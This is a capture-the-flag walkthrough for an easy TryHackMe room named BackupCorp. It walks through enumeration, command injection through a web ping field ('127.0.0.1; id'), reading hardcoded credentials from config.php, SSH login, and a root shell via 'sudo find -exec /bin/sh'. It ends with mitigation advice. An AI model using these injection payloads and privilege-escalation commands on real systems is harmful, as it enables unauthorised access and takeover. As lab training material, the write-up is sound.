# BackupCorp — Official Writeup


> **Room:** BackupCorp
> **Difficulty:** Easy
> **Author:** <your-thm-username>
> **Skills:** enumeration · web command injection · credential looting · Linux privilege escalation (sudo / GTFOBins)

> **Note:** Flag values and the leaked password are intentionally **blurred** in the
> screenshots so this writeup doesn't spoil the room. Deploy the box and capture
> them yourself.

---

## Overview

BackupCorp takes its backups seriously — its security, not so much. In this box we
enumerate the target, exploit an unsanitised **"Network Tools"** page to gain command
execution, loot hardcoded credentials from a config file, pivot to a real user, and
finish by abusing a careless `sudo` rule to escalate to **root**.

> In the commands below, replace the IP with your deployed machine's IP address.

---

## Task 1 — Deploy & Enumerate

### Service scan

```bash
nmap -sV -sC <IP>
```



Two ports are open:

```
22/tcp open  ssh      OpenSSH 8.9p1 Ubuntu
80/tcp open  http     Apache httpd 2.4.52 ((Ubuntu))
```

`nmap`'s `http-robots.txt` script already hints at one disallowed entry. Confirming it:

```bash
curl http://<IP>/robots.txt
```



```
User-agent: *
Disallow: /admin
```

This points us at the hidden **/admin** directory.

### Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | How many TCP ports are open? | `2` |
| 2 | What service is running on port 22? | `ssh` |
| 3 | What hidden directory does robots.txt reveal? | `/admin` |

---

## Task 2 — Get a Foothold

Browsing to `http://<IP>/admin/` reveals a **Network Tools** page with a "Ping a host"
field. It runs `ping` on whatever you submit — so if the input isn't sanitised, we can
append our own command with `;`.

### Confirming command injection

Submitting `127.0.0.1; id`:



```
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Command injection confirmed — we execute as **www-data**.

### Enumerating the web directory

Listing the admin folder (`127.0.0.1; ls /var/www/html/admin/`) shows a `config.php`:



### Reading config.php (the browser trap)

Reading the `.php` file **in the browser looks empty** — the browser hides the
`<?php ... ?>` tags, so nothing visibly renders:



The fix is to read it with `curl` from the terminal (View Source / base64 also work):

```bash
curl "http://<IP>/admin/index.php?host=127.0.0.1;cat+/var/www/html/admin/config.php"
```



```php
$db_host = "localhost";
$db_user = "developer";
$db_pass = "********************";   // (redacted in this writeup)
```

We now have credentials for the user **developer**.

### Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | 2-word name of the vulnerability | `command injection` |
| 2 | Which user does the web server run as? | `www-data` |
| 3 | Username found in the leaked config | `developer` |

---

## Task 3 — User Flag

SSH is open, so we log in with the leaked credentials:

```bash
ssh developer@<IP>
```



After entering the password we land on the box as **developer**:



Grab the user flag:

```bash
cat ~/user.txt
```



### Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | Submit the contents of user.txt | `THM{… deploy to find it …}` |

---

## Task 4 — Privilege Escalation & Root

Check what `developer` can run as root:

```bash
sudo -l
```



```
User developer may run the following commands:
    (root) NOPASSWD: /usr/bin/find
```

`find` can be run as root without a password. [GTFOBins](https://gtfobins.github.io/gtfobins/find/)
shows that `find` can spawn a shell through its `-exec` flag:



Because we run it via `sudo`, that shell is a **root** shell:

```bash
sudo /usr/bin/find . -exec /bin/sh \; -quit
```



Confirming we're root:

```bash
id
```



```
uid=0(root) gid=0(root) groups=0(root)
```

Locate and read the root flag:

```bash
ls /root/
cat /root/root.txt
```





### Questions

| # | Question | Answer |
|---|----------|--------|
| 1 | Which binary can developer run as root? | `/usr/bin/find` |
| 2 | Submit the contents of root.txt | `THM{… deploy to find it …}` |

---

## Summary

| Stage | Technique | Result |
|-------|-----------|--------|
| Recon | `nmap`, `robots.txt` | Found SSH, HTTP, `/admin` |
| Foothold | Web command injection | Shell as `www-data` |
| Loot | Read `config.php` | Credentials for `developer` |
| User | SSH login | `user.txt` |
| Privesc | `sudo find` (GTFOBins) | Root shell → `root.txt` |

**Three real-world mistakes chained together:** an unsanitised web input, hardcoded
credentials in a config file, and an overly permissive `sudo` rule. Patching any one
of them would have broken the chain.

---

### Mitigations
- **Validate/escape all user input** — never pass it to a shell. Use safe APIs instead
  of `shell_exec`.
- **Never hardcode credentials** in web-readable files; use environment variables or a
  secrets manager, and restrict file permissions.
- **Follow least privilege for sudo** — don't grant `NOPASSWD` on binaries with known
  shell escapes (see GTFOBins).

---

_Writeup by <your-thm-username>. Room: BackupCorp on TryHackMe._
